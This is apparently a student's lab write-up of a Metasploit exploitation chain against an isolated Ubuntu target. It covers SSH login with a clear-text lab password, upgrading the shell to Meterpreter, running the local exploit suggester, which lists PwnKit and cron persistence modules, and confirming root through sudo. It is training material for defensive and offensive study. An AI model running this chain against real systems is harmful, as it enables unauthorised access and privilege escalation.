




# Day 2 — Metasploit Full Exploitation Chain

## 🎯 Objective
Move beyond a basic shell session to a fully-featured Meterpreter session, perform post-exploitation reconnaissance, and confirm privilege escalation to root through the exploitation framework.

## 🧪 Lab Setup
- **Attacker:** Kali Linux — `192.168.219.128`
- **Target:** Ubuntu Server — `192.168.219.129`

## Step 1 — Re-establish Session

    use auxiliary/scanner/ssh/ssh_login
    set RHOSTS 192.168.219.129
    set USERNAME nawal
    set PASSWORD cyber@2.0
    run
    sessions -l

**Result:** SSH shell session (Session 1) established using previously validated credentials.

## Step 2 — Upgrade Shell to Meterpreter

    use post/multi/manage/shell_to_meterpreter
    set SESSION 1
    run
    sessions -i 2
    sysinfo
    getuid

**Result:** Basic shell successfully upgraded to a Meterpreter session (Session 2), giving access to advanced post-exploitation commands.

## Step 3 — Local Exploit Suggester

    background
    use post/multi/recon/local_exploit_suggester
    set SESSION 2
    run

**Result:** Metasploit automatically checked 84 known local privilege escalation exploits against the target. Multiple modules came back as potentially exploitable, including:
- `exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec`
- `exploit/linux/local/su_login`
- `exploit/linux/persistence/cron`

## Step 4 — Privilege Escalation Confirmation

    sessions -i 2
    shell
    echo [REDACTED] | sudo -S whoami

**Result:**

    root

Root access on the target was confirmed directly through the Meterpreter shell, using the sudoers misconfiguration identified during Week 5 enumeration.

## 📋 Finding
The exploitation framework was used to escalate a basic credentialed shell into a full Meterpreter session, enabling structured post-exploitation reconnaissance. The `local_exploit_suggester` module automated discovery of multiple viable privilege escalation paths, and root access was confirmed by chaining the framework session with the previously identified sudoers misconfiguration.

## 🧰 Tools Used
- Metasploit Framework (`post/multi/manage/shell_to_meterpreter`, `post/multi/recon/local_exploit_suggester`)

## ✅ Skills Demonstrated
- Shell-to-Meterpreter session upgrading
- Meterpreter post-exploitation commands (`sysinfo`, `getuid`, `shell`)
- Automated local privilege escalation discovery
- Chaining framework access with known misconfigurations to confirm root
